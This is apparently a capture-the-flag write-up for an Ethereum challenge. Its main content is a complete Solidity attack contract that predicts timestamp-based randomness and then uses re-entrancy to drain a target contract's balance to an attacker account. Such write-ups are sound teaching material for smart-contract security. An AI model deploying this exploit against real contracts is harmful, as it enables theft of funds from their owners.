 # RollsRoyce - Solution

**Author**: AtlanticBase

**Category**: Ethereum

This challenge is about the insecurities of Randomness in the Ethereum Blockchain and Re-entrancy.

It is not secure if you use the timestamp as attackers can 'predict' the blocks. This is a problem. In order to guess the attack, run the `CoinFlip` function
and then guess at the same time and you will be able to get the answer.

Now, after that, you can then use Re-entrancy to drain the contract address and get the funds.

```javascript

//SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "hardhat/console.sol";

enum CoinFlipOption {
        HEAD,
        TAIL
}

interface IRollsRoyce {
    function guess(CoinFlipOption _guess) external payable;
    function revealResults() external;
    function withdrawFirstWinPrizeMoneyBonus() external;
}

contract RollsRoyceAttack {

    RollsRoyce rr;
    event Received(address, uint);

    constructor() {
        rr = RollsRoyce(payable([CONTRACT ADDRESS]));
    }

    function guessAttack() public payable {
        for(uint i=0; i<3; i++){
            CoinFlipOption ans = CoinFlipOption(uint(keccak256(abi.encodePacked((block.timestamp) ^ 0x1F2DF76A6))) % 2);
            rr.guess{value: 1 ether}(ans);
            rr.revealResults();
        }
    }

    function withdrawAttack() external payable {
        rr.withdrawFirstWinPrizeMoneyBonus();
    }

    receive() external payable {
        if (address([CONTRACT ADDRESS]).balance > 0) {
            rr.withdrawFirstWinPrizeMoneyBonus();
            console.log("reentering...");
            emit Received(msg.sender, msg.value);
        } else {
            console.log('victim account drained');
            payable([EOA ACCOUNT]).transfer(address(this).balance);
        }
  }

  function viewBalance() public view returns (uint) {
      return address(this).balance;
  }
}

```
